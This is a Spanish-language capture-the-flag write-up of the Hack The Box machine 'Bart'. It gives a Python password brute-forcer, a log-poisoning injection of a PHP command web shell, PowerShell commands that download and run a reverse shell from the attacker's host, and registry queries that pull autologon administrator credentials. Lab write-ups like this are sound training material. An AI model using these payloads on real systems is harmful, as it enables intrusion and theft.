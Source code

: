 ```yaml
---
layout: post
title: Bart
date: 2022-11-16
categories: ["HTB"]
thumbnail: "assets/images/Bart.png"
---
```


# Bart [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.81 -oG allPorts`
- `nmap -sCV -p80 10.10.10.81 -oN targeted`

`NMAP` nos dice que no ha seguido el redireccionamiento a `http://forum.bart.htb`.

### Inspección #1

Una vez haymos agregado `bart.htb` y `forum.bart.htb` al archivo `/etc/hosts` podemos ver la página sin problema. Nos encontramos en una página de negocios y tecnología revolucionaria, al inspeccionar el código fuente vemos un comentario añadiendo a otro desarrollador y nos dice que no puede añadirlo, ya que el `CSS` se rompe, por lo que lo deja ahí.

No hay nada interesante, pero si nos fijamos vemos que estamos en un subdominio, así
que con WFuzz vamos a enumerar subdominios para descubrir si hay más.

- `wfuzz -w top1million-2000.txt -H "Host: FUZZ.bart.htb" -t 100 10.10.10.81`

Bien! Gracias a `WFuzz` hemos descubierto otro subdominio (`monitor.bart.htb`)! Nos dirigimos a la página para ver a lo que nos estamos enfrentando. Tenemos ante nosotros un panel `login` de `PHP Server Monitor`, no disponemos de ningún usuario válido y menos de una contraseña, pero vemos un botón para restaurar la contraseña, cuando lo clicamos no nos pide un correo, sino un nombre de usuario, por lo que vamos probando hasta que damos con el usuario `harvey`. En la página principal veíamos varias personas y en el código fuente a `Harvey`, por lo que podíamos intuir lo que había que hacer.

Ahora bien, seguimos sin tener ninguna contraseña, aunque para eso usaremos `CeWL`, una herramienta hecha en `Ruby` que nos permite crear `wordlists` customizadas, en este caso queremos que nos saque una `wordlist` de la página inicial.

- `cewl -w cewl-forum.txt -e -a http://forum.bart.htb`

Bien! Ya tenemos una `wordlist` customizada! Ahora hice un `script` en `Python` para probar todas las contraseñas de ese diccionario.

```
import requests

with open("cewl-forum.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for passwd in lines:
        passwd = str(passwd).replace("\n", "").lower()
        cookies = {"PHPSESSID": "71793v7dsekogj5f3o0seo4341"}
        data = {
        "csrf": "999792d7ce[...]e511694927ca218",
        "user_name": "harvey",
        "user_password": f"{passwd}",
        "action": "login",
        }

        r = requests.post("http://monitor.bart.htb/", cookies=cookies, data=data)
        print(f"Harvey [ {passwd} ] | " + str(len(r.content)))
```

Como vemos en este `script` medimos la longitud de la respuesta, ya que si la contraseña es incorrecta siempre es la misma longitud, en cambio, cuando la longitud haya cambiado significará que la contraseña es correcta. Tras unos minutos hemos podido obtener la contrasña de Harvey (`harvey:potter`)!

### Inspección #2

Una vez estemos dentro del panel veremos varios apartados arriba, nos dirigimos a `Servers` y vemos otro subdominio, vamos a agregarlo al archivo `/etc/hosts`.

Una vez agregado entramos y vemos otro panel `login`, nos disponemos a `fuzzear` la página con `WFuzz` para encontrar archivos con extensión `PHP`.

```
wfuzz dir -u "http://internal-01.bart.htb/simple_chat/FUZZ.php" -w directory-list-2.3-medium.txt
```

Gracias a esto vemos un archivo llamado `register.php`, investigando un poco más sobre `SimpleChat` vemos que es un proyecto de código abierto y está disponible en `GitHub`, por lo que mirando el código vemos que necesitamos dos parámetros (`uname` y `passwd`) y que la petición se tramita mediante `POST`, por lo que nos podemos crear un usuario tramitando una petición con `CURL`.

```
data="uname=black&passwd=password"
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "$data"
```
Bien! Hemos creado un usuario! Ahora podemos acceder al panel para poder continuar. Es simplemente un chat, vemos mensajes pero no son relevantes, lo importante está en el código fuente, el cual está algo cambiado respecto al original, añadiendo así un pequeño `script`:

```
<div id="log_link">
  <script>
    function saveChat() {
      // Create a serialized object and send to log_chat.php.
      // Once done the XHR request, alert "Done"
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          alert(xhr.responseText);
        }
      }
      xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
      xhr.send(null);
      alert("Done");
    }
  </script>
  <a href="#" onclick="saveChat()">Log</a>
</div>
```

Cuando el usuario clica el link Log ejecuta la función `SaveChat`, la cual hará saltar una ventana diciendo `Done` y luego otra diciendo `1`. Eso es debido a que la función `xhr.open` es llamada con el tercer parámetro `true`, que pone la llamada al modo `async`. El `script` dice `Done` y luego, una vez la petición regresa, la función `xhr.onreadystatechange` es llamada, alertando así del texto con la respuesta.

Si nos vamos manuealmente a la URL veremos un código de estado `1`, pero si cambiamos el nombre de usuario vemos `0`. Hay un parámetro llamado `filename`, el cual tiene como valor `log.txt`, entramos a `http://internal-01.bart.htb/log/log.txt` y vemos que existe, por lo que me hace pensar que se está creando un archivo el cual muestra nuestro `User-Agent`.

Con esto en cuenta nos acordamos del `Log Poisoning` o `Envenenamiento de Registros`, así que vamos a probarlo. Para ello cambiaré mi User-Agent a `<?php phpinfo(); ?>` para que cuando cargue nos interprete el `PHP` y podamos ver la información de `PHP`.

```
import requests

headers = {'User-Agent':'<?php phpinfo(); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', headers=headers)
```

Una vez ejecutado el script nos dirigimos a `http://internal-01.bart.htb/log/phpinfo.php` y podremos ver que la inyección ha salido bien, por lo que ahora podemos crear otro archivo pero que tome el parámetro cmd para ejecutar el comando a nivel de sistema y representar el resultado, para ello cambiaremos el `User- Agent` a `<?php system($_REQUEST['cmd']); ?>`.

Bien! Ya podemos ejecutar comandos a nivel de sistema!

### Shell

Para obtener una Shell me descargué un archivo `PS1` llamado [`Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) del
repositorio [`Nishang`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Una vez lo tenía de manera local le añadí al final una línea para poder entablarnos la conexión y me puse en escucha con `NC`.

- `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444`
- `nc -nlvp 4444`

Bien! Ya estamos preparados para obtener la Shell! De nuevo usaremos `Python` para montarnos un servidor y mandar la petición de una manera más cómoda.

- `python3 -m http.server 80`

```
import requests

cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/Invoke-PowerShellTcp.ps1')"
r = requests.get('http://internal-01.bart.htb/log/black.php?cmd={}'.format(cmd))
```

Bien! Hemos recibido la conexión! Ya estamos en la máquina como `IUSR`!


### Subida de privilegios

Ahora que estamos en la máquina hay que intentar ser administradores, para ello comenzé con pruebas estándar para la subida de privilegios en `Windows`. Tras estar probando encontré credenciales por defecto en los registros de `autologon`.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```
DefaultDomainName REG_SZ DESKTOP-7I3S68E
DefaultUserName REG_SZ Administrator
DefaultPassword REG_SZ 3130438 f31186fbaf962f407711faddb
```

Para obtener la Shell como `Administrator` edité el `script` que habíamos utilizando anteriormente cambiándole el puerto a `443`, una vez hecho eso me puse en escucha, me monté un servidor en `Python` y pasé a hacer lo siguiente:

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object
Net.WebClient).downloadString('http://10.10.14.15/Shell.ps1') } -Credential $cred -Computer localhost
```

Enhorabuena! Ya estamos como `bart\administrator` en la máquina! Vaya desafío!
